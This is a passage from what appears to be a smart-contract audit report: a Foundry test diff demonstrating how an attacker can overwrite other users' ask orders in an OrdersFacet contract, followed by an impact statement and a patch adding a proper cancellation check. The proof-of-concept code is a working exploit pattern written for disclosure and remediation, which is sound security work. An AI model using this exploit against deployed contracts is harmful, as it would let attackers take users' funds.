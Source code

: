 ```diff
+        uint256[] memory replacingOrders = new uint[](7);
+        uint256 replacingOrderIndex = 0;
+        {
+            STypes.Order[] memory asks = getAsks();
+            // now all orders from 7 to 1 are that of receivers
+            for (uint256 i = 0; i < asks.length; i++) {
+                assertEq(asks[i].addr, receiver);
+                if (asks[i].price != price8) {
+                    replacingOrders[replacingOrderIndex] = asks[i].id;
+                    replacingOrderIndex++;
+                }
+            }
+        }
+        {
+            //these orders replaces previous orders of the receiver
+            fundLimitAskOpt(price7, askAmount, attacker);
+            fundLimitAskOpt(price6, askAmount, attacker);
+            fundLimitAskOpt(price5, askAmount, attacker);
+            fundLimitAskOpt(price4, askAmount, attacker);
+            fundLimitAskOpt(price3, askAmount, attacker);
+            fundLimitAskOpt(price2, askAmount, attacker);
+            fundLimitAskOpt(price1, askAmount, attacker);
+        }
+
+        //all orders are that of the attacker
+        for (uint256 i = 0; i < 7; i++) {
+            STypes.Order memory ask =
+                diamond.getAskOrder(asset, uint16(replacingOrders[i]));
+            assertEq(ask.addr, attacker);
+        }
+    }
+
     //NON-DAO
     function testRevertNotLastOrder() public {
         setOrderIdAndMakeOrders({orderType: O.LimitBid});
```

## Impact

Users having an active order at present or in future will loose their funds.

## Recommendation

Add to checks to see if the order is already cancelled. Since this function also doesn't reimburse funds it would be best to change it to the way a normal cancel order function would work except that msg.sender could be anybody.

```diff
diff --git a/contracts/facets/OrdersFacet.sol b/contracts/facets/OrdersFacet.sol
index 0a924e7..7cbb8bd 100644
--- a/contracts/facets/OrdersFacet.sol
+++ b/contracts/facets/OrdersFacet.sol
@@ -59,6 +59,11 @@ contract OrdersFacet is Modifiers {
     {
         STypes.Order storage ask = s.asks[asset][id];
         if (msg.sender != ask.addr) revert Errors.NotOwner();
+        _cancelAsk(asset, id);
+    }
+
+    function _cancelAsk(address asset, uint16 id) internal {
+        STypes.Order storage ask = s.asks[asset][id];
         O orderType = ask.orderType;
         if (orderType == O.Cancelled || orderType == O.Matched) {
```